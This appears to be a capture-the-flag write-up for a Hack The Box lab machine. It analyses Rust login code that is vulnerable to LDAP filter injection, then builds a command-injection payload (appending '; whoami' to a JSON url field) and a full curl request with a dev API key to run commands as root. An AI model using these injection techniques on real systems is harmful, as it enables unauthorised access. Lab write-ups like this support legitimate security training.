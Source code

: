         #[post("/login", data = "<body>")]
        pub async fn login(body: Json<LoginRequest>, cookies: &CookieJar<'_>) -> anyhow::Result<(), RouteErrorRocket> {
            let username = ldap_connect(&body.ldap_username, &body.ldap_secret).await?;
            let claim = UserClaim::sign(UserClaim {
                username: username.to_string(),
            });

            let mut cookie = Cookie::new("token", format!("Bearer {}", claim));
            let mut now = OffsetDateTime::now_utc();
            now += Duration::days(1);
            cookie.set_expires(now);

            cookies.add(cookie);

            Ok(())
        }
        ```
        You can find this block of code at [login.rs](http://gitea.ghost.htb:8008/ghost-dev/intranet/src/branch/main/backend/src/api/login.rs)

        The lack of input sanitization in the `ldap_connect` function, specifically in how the username and secret are used in the LDAP search query, allows us to manipulate the username or secret values. The code builds the LDAP search query using string formatting, directly embedding the username and secret variables:

        ```rust
        &format!("(&(displayName={})(intranetSecret={}))", username, secret)
        ```

        This allowed us to inject arbitrary LDAP filter syntax, bypass authentication, and perform unauthorized queries.

---

## Initial Access

**Crafting our Payload**
+ **Target API URL:** `http://intranet.ghost.htb/api-dev`
+ **Vulnerable Route:** `/scan`
+ **Authentication:** Requires the header `X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe`
+ **Format:** The API expects input in JSON format within the `url` variable:
    + basic body
    ```json
    {
    "url": "http://test.com"
    }
    ```    
    + To execute commands, we can pass the URL as expected and append ; or | followed by our command:
    ```json
    {
    "url": "http://test.com"; whoami
    }
    ```
    + Final Payload would be like this
    ```bash
    curl -s -X POST http://intranet.ghost.htb:8008/api-dev/scan \
    -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' \
    -H 'Content-Type: application/json' \
    -d '{"url":"https://test.com; whoami"}' | jq -r '.temp_command_stdout'
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*ty1EGKdaVNVMy4fGESRw5g.png)
    Our command executes successfully, confirming that the application is running as **root**.
